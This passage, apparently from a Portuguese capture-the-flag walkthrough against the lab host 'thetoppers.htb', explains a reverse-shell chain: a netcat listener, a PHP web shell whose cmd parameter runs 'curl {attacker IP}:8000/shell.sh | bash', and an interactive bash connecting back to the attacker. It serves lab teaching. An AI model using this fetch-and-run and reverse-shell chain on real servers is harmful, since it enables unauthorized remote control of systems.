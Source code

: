 ### 3. A Interação Mágica: `shell.php` + `curl ... | bash` + `shell.sh`

1.  **Sua Máquina (Atacante):**
    *   Você tem `nc -nvlp 1337` escutando por conexões.
    *   Você tem `python3 -m http.server 8000` servindo o arquivo `shell.sh`.
    *   Você executa: `curl "http://thetoppers.htb/shell.php?cmd=curl%20{SEU_IP_ATACANTE}:8000/shell.sh\|bash"`

2.  **Servidor Alvo (`thetoppers.htb`):**
    *   O Apache recebe a requisição para `shell.php`.
    *   O PHP executa `system("curl {SEU_IP_ATACANTE}:8000/shell.sh|bash")`.
    *   **Dentro do `system()`:**
        *   O comando `curl {SEU_IP_ATACANTE}:8000/shell.sh` é executado primeiro. Ele baixa o conteúdo do `shell.sh` do seu servidor Python. A saída deste `curl` é o *texto* do script `shell.sh`.
        *   O pipe `|` pega essa saída (o texto do `shell.sh`) e a envia como entrada padrão para o comando `bash`.
        *   O comando `bash` então executa as instruções contidas no `shell.sh` (que acabamos de detalhar acima).
        *   O `shell.sh` (agora rodando no servidor alvo) faz a conexão TCP de volta para o seu `nc` na porta 1337 e amarra o I/O do `bash -i` a essa conexão.

3.  **Resultado:**
    *   Seu `nc` recebe a conexão.
    *   Agora, quando você digita no `nc`, os dados viajam pela conexão TCP, chegam ao `bash -i` no servidor alvo como stdin, o comando é executado, e a saída/erro viaja de volta pela mesma conexão TCP para o seu `nc`, que a exibe.
    *   Você tem um shell interativo no servidor alvo!

É uma cadeia engenhosa de eventos: um web shell simples (`shell.php`) é usado para executar um comando que baixa (`curl`) e executa (`| bash`) um script (`shell.sh`) que estabelece uma conexão de volta para você, dando-lhe controle interativo.
